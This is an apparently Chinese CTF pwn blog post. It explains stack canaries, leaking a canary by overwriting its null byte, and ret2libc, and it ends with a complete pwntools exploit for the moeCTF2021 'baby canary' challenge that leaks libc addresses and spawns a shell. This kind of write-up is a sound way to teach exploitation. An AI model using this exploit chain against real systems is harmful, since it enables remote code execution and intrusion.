 ```yaml
---
title: "[PWN.0x01]canary|partial overwrite|ret2libc"
date: 2022-03-05T20:30:31+08:00
draft: false
url: "articles/CTFpwn1"
categories: ["CTF","PWN"]
---
```


### canary绕过

#### 什么是canary？

canary是一种防止栈溢出的保护机制，可以在终端中使用checksec命令检查ELF文件是否开启了canary保护。

是否开启canary的编译选项：

```bash
gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
```

在开启了canary的情况下，程序会在栈底额外存储一个值，并在函数return的时候检查这个值是否发生变动，从而判断程序是否发生了栈溢出，可以大大提高程序运行的安全性。

![1](1.svg)

#### 如何绕过canary？

canary本身有个防意外输出的机制，由于printf %s函数以`\x00`为输出结束的标志，因此为了防止canary下面的合法数据段被合法写入的情况下，canary被printf函数意外输出，所以在小端序程序中，canary的最低位字节一定为`\x00`，因此可以进行**partial overwrite**，即部分覆盖。在写完合法的区域之后，溢出写入一个字节的数据把canary末尾的`\x00`覆盖掉，这样之后的printf函数就会顺带着泄露canary的值。



### ret2libc

#### 概述

在较为基础的pwn题中一般都有一个显性的`system`函数和`/bin/sh`字符串供选手调用。

如果这两者都不显性存在，就可以使用ret2libc方法。

这种方法主要针对**动态链接（dynamic linking）**的程序，程序运行时会调用 **libc.so** (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。

**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system("/bin/sh")** 来打开 shell。

工作重心转向获取libc.so加载进内存的可利用的函数的地址。

#### 什么是动态链接？

[深入理解动态链接 - 简书 (jianshu.com)](https://www.jianshu.com/p/cdb5cfcb5056)

[深入理解GOT表和PLT表 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/130271689)

[got表和plt表在程序执行过程中的作用 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1680494)

简而言之，装载到程序中的有两张表，对于一个外部库的被调用的函数，plt表指向got表中这个函数的位置，got表中则存储着这个函数在内存中的真实地址，函数的调用时通过plt表来完成的。

![2](2.svg)

而对于一个链接库（如libc.so）而言，虽然其加载进内存的具体地址不确定，但是其内部的各个函数的相对位置是确定的，也就是说，可以构造payload泄露libc.so中的一个函数的真实地址，从而根据固定的偏移获取system等函数的地址。



#### 例题：moeCTF2021 - baby canary

checksec后发现开了NX和canary保护。

![lAEmSNwFPbVyfop](lAEmSNwFPbVyfop.png)

canary的绕过方法上面已有介绍，构造payload如下，借助第一个puts获取canary的值。

```python
payload1=b'a'*(0x4c-0x0c)+b'b'
p.send(payload1)
p.recvuntil(payload1)
canary=u32(p.recv(3).rjust(4,b'\x00'))
```

接下来要获取libc.so库中的某一函数的真实地址，不妨来获取puts函数的真实地址。构造payload使gots表中puts的值输出，获取到puts函数的真实地址，并使函数返回至main函数中，重新开始程序进行进一步攻击。

```python
payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
#注意上面的puts_got指的是地址，而真实的值是不固定的，需要被puts函数泄露
p.send(payload2)
p.recvuntil("he flag!\n")
puts_addr=u32(p.recv(4))
```

之后根据已知的libc.so中puts函数和system，/bin/sh的便宜来获取system和/bin/sh的真实位置，从而构造payload攻击。

完整exp：

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
local=1
e=ELF("./baby_canary")
puts_got=e.got["puts"] #指向got表的地址，got表具体的值要靠puts泄露
puts_plt=e.plt["puts"]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def main():
    if local:
        p=process("./baby_canary")
    else:
        p=remote("114.67.175.224",11482)
    p.recv()
    payload1=b'a'*(0x4c-0x0c)+b'b'
    p.send(payload1)
    p.recvuntil(payload1)
    canary=u32(p.recv(3).rjust(4,b'\x00'))
    p.recv()
    print("canary: ",hex(canary))
    payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
    p.send(payload2)
    p.recvuntil("he flag!\n")
    puts_addr=u32(p.recv(4))
    print(puts_addr)
    libc_base = puts_addr - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()

    p.recvuntil("u are?\n")
    p.send(payload1)
    payload3=b'a'*(0x4c-0xc)+p32(canary)+b'a'*12+p32(system_addr)+b'aaaa'+p32(binsh_addr)
    p.send(payload3)
    p.interactive()
main()
```



### 小插曲

实践中发现，在函数调用栈中除了该有的局部变量，有时会出现一些奇怪的变量，这是由编译器决定的，一般用于存储寄存器上下文。

![3](3.png)
